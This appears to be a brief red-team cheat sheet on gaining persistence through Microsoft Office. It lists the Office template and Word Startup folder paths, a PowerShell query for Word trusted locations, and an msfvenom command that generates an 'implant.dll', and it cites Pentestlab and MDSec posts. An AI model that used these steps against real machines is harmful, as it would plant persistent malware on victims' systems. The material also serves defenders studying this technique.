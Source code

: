 # Microsoft Office

## Microsoft Office Templates

```
C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Templates\
```

## Add-ins

```
PS C:\> Get-ChildItem "HKCU:\SOFTWARE\Microsoft\Office\16.0\Word\Security\Trusted Locations"
```

```
$ msfvenom -f dll -o implant.dll
```

```
C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Word\Startup\
```

---
## References

### Pentestlab

- [Pentestlab: Persistence - Office Application Startup](https://pentestlab.blog/2019/12/11/persistence-office-application-startup/)

### MDSec

- [MDSec: Part 1 - Microsoft Office](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/)